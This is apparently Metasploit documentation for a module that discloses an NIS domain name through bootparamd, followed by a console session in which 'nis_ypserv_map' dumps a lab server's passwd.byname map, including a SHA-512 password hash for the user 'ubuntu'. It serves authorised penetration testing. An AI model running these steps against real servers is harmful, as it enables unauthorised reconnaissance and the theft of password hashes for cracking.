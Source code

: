 ## Intro

From the `bootparamd(8)` man page:

> bootparamd is a server process that provides information to diskless clients necessary for booting. It consults the /etc/bootparams file to find the information it needs.

The module documented within will allow a tester to disclose the NIS
domain name from a server running `bootparamd`. After knowing the domain
name, the tester can follow up with `auxiliary/gather/nis_ypserv_map` to
dump a map from an NIS server (running as `ypserv`).

## Setup

Set up NIS as per <https://help.ubuntu.com/community/SettingUpNISHowTo>.
If the link is down, you can find it via the Wayback Machine.

After that is done, install `bootparamd` however your OS provides it.

Make sure you add a client to the `bootparams` file, which is usually at
`/etc/bootparams`. The client should be added to `/etc/hosts` if it
isn't already resolvable.

## Options

**PROTOCOL**

Set this to either TCP or UDP. UDP is the default due to `bootparamd`.

**CLIENT**

Set this to the address of a client in the target's `bootparams` file.
Usually this is a host within the same network range as the target.

**XDRTimeout**

Set this to the timeout in seconds for XDR decoding of the response.

## Usage

```
msf > use auxiliary/gather/nis_bootparamd_domain
msf auxiliary(gather/nis_bootparamd_domain) > set rhost 192.168.33.10
rhost => 192.168.33.10
msf auxiliary(gather/nis_bootparamd_domain) > set client 192.168.33.10
client => 192.168.33.10
msf auxiliary(gather/nis_bootparamd_domain) > run

[+] 192.168.33.10:111 - NIS domain name for host ubuntu-xenial (192.168.33.10) is gesellschaft
[*] Auxiliary module execution completed
msf auxiliary(gather/nis_bootparamd_domain) >
```

After disclosing the domain name, you can use
`auxiliary/gather/nis_ypserv_map` to dump a map from an NIS server.

```
msf auxiliary(gather/nis_bootparamd_domain) > use auxiliary/gather/nis_ypserv_map
msf auxiliary(gather/nis_ypserv_map) > set rhost 192.168.33.10
rhost => 192.168.33.10
msf auxiliary(gather/nis_ypserv_map) > set domain gesellschaft
domain => gesellschaft
msf auxiliary(gather/nis_ypserv_map) > run

[+] 192.168.33.10:111 - Dumping map passwd.byname on domain gesellschaft:
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
ubuntu:$6$LXFAVGTO$yiCXi1KjLynOrapuhJE7tKnvdwknDMKiKM7Z8ZB19ht6CHmsS.CbUTm8q0cy5fFHEqA.Sg4Acl.0UtY.Y0JNE1:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
games:*:5:60:games:/usr/games:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
systemd-resolve:*:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
systemd-network:*:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
uuidd:*:108:112::/run/uuidd:/bin/false
dnsmasq:*:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
root:*:0:0:root:/root:/bin/bash
sshd:*:110:65534::/var/run/sshd:/usr/sbin/nologin
systemd-bus-proxy:*:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
messagebus:*:107:111::/var/run/dbus:/bin/false
_apt:*:105:65534::/nonexistent:/bin/false
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
syslog:*:104:108::/home/syslog:/bin/false
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
systemd-timesync:*:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
pollinate:*:111:1::/var/cache/pollinate:/bin/false
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
lxd:*:106:65534::/var/lib/lxd/:/bin/false

[*] Auxiliary module execution completed
msf auxiliary(gather/nis_ypserv_map) >
```
